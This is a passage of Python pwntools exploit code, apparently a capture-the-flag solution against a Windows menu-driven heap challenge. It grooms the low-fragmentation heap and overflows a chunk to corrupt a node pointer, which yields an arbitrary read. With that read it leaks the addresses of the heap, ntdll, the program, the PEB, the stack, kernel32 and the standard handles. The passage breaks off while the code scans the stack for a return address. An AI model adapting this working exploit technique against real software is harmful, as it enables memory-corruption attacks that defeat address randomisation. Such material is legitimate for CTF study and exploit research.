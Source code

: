     proc.sendlineafter(b':', key)


def logout():
    proc.sendlineafter(b'>>', b'4')


def login(name, password):
    # login
    proc.sendlineafter(b'>>', b'1')
    proc.sendafter(b':', name)
    proc.sendafter(b':', password)


def exploit():
    if len(sys.argv) <= 1:
        input('attach to pid: {}'.format(proc.proc.pid))
    login(b'ddaa\n', b'phdphd\n')

    for i in range(19):
        add(f'LFH_{i}', 0x200, 'LFH')
    for i in range(0x10):
        add(f'fill_{i}', 0x200, 'LFH')
    remove('fill_0')
    add('fill_1', 0x60, 'AAAA')
    view('fill_1')
    # data + chunk header
    proc.recv(0x60 + 0x10)
    heap_base = u64(proc.recv(8)) & ~0xffff
    size = u64(proc.recv(8))
    next_node = proc.recvuntil(b'\x00')[:-1]
    log.info('heap: ' + hex(heap_base))
    lock = heap_base + 0x2c0

    def leak(addr):
        add(b'fill_1', 0x60, b'A' * 0x70 + p64(addr))
        view(next_node)
        return u64(proc.recv(8))
    
    ntdll = leak(lock) - 0x163d10
    log.info('ntdll: ' + hex(ntdll))
    # 00000000`00163d10

    program = leak(ntdll + 0x01652c8) - 0xf8
    log.info('program: ' + hex(program))

    peb = leak(ntdll + 0x1652e8) - 0x240
    log.info('peb: ' + hex(peb))

    stack = leak(peb + 0x1010)
    log.info('stack: ' + hex(stack))

    kernel32 = leak(program + 0x3000) - 0x22680
    log.info('kernel32: ' + hex(kernel32))

    process_parameter = leak(peb + 0x20)
    stdin = leak(process_parameter + 0x20)
    log.info('stdin:' + hex(stdin))

    stdout = leak(process_parameter + 0x28)
    log.info('stdout:' + hex(stdout))

    target = program + 0x1e38
    ret_addr = stack + 0x2000 + (0x100 * 8)
    found = False
    for i in range(0x1000 // 8):